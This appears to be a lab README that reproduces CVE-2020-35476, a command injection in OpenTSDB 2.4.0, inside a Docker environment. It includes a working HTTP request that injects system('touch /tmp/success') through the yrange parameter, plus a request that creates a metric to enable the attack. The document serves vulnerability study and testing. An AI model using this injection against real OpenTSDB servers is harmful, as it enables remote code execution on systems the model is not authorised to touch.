 # OpenTSDB Arbitrary Command Injection Remote Code Execution (CVE-2020-35476)

[中文版本(Chinese version)](README.zh-cn.md)

OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.

A remote code execution vulnerability occurs in OpenTSDB through 2.4.0 via command injection in the yrange parameter. The yrange value is written to a gnuplot file in the /tmp directory. This file is then executed via the mygnuplot.sh shell script. (tsd/GraphHandler.java attempted to prevent command injections by blocking backticks but this is insufficient.)

References:

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## Vulnerable Environment

Execute the following command to start a OpenTSDB server 2.4.0:

```
docker compose up -d
```

Once the service is started, visit `http://your-ip:4242` to see the web interface of the OpenTSDB.

## Exploit

You need to know the name of a metric before you can exploit this vulnerability on `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`:

![](1.png)

However, the metrics list is empty.

Fortunately, the `tsd.core.auto_create_metrics` is set to `true` in this vulnerable OpenTSDB, so you can create a metric named `sys.cpu.nice` through following request:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

If at least one metric exists and is not empty, the above request is not required.

Send following request, where the value of the parameter `m` must contain a valid metric name:

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](2.png)

`touch /tmp/success` has been successfully executed.

![](3.png)
